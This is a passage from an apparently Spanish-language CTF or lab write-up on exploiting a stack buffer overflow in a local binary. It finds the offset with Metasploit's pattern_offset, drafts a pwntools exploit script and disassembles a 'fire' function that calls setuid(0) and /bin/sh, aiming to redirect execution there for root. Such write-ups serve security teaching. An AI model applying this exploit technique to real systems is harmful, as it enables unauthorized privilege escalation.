 ahora pasamos `0x6341356341346341` a la herramienta `pattern_offset` de metasploit y nos dice lo siguiente:

```css
❯ /opt/metasploit/tools/exploit/pattern_offset.rb -q 0x6341356341346341
[*] Exact match at offset 72
❯ 
```

Por lo que ya tenemos un offset y podemos ir armando el exploit:

```python
#!/usr/bin/env python3

from pwn import *


def exploit():
    binario = '/home/astu/secure/bs64'
    i = process(binario)

    buffer = b"\x90"*72
    RIP = b"B"*6

    payload = buffer + RIP


    i.sendline(payload)
    i.interactive()

if __name__ == '__main__':
    exploit()

```

Ahora si revisamos con `checksec` el binario, veremos que tiene NX activado como protección, eso significa que el stack no es ejecutable, por lo que no nos sirve meter un shellcode. También si revisamos las funciónes con gdb (`info functions`), veremos una llamada "fire" la cual establece el uid en 0 y además ejecuta un sh, ya que con `strings` vemos lo siguiente:

```css
Ejecutando /bin/sh
```

por lo que podriamos intentar apuntar a esa función para poder escalar a root.

```css
pwndbg> disassemble fire
Dump of assembler code for function fire:
   0x000000000040136a <+0>:	push   rbp
   0x000000000040136b <+1>:	mov    rbp,rsp
   0x000000000040136e <+4>:	lea    rax,[rip+0xcfb]        # 0x402070
   0x0000000000401375 <+11>:	mov    rdi,rax
   0x0000000000401378 <+14>:	mov    eax,0x0
   0x000000000040137d <+19>:	call   0x401050 <printf@plt>
   0x0000000000401382 <+24>:	mov    edi,0x0
   0x0000000000401387 <+29>:	call   0x401070 <setuid@plt>
   0x000000000040138c <+34>:	lea    rax,[rip+0xcf0]        # 0x402083
   0x0000000000401393 <+41>:	mov    rdi,rax
   0x0000000000401396 <+44>:	call   0x401040 <system@plt>
   0x000000000040139b <+49>:	nop
   0x000000000040139c <+50>:	pop    rbp
   0x000000000040139d <+51>:	ret
End of assembler dump.
pwndbg> 
```
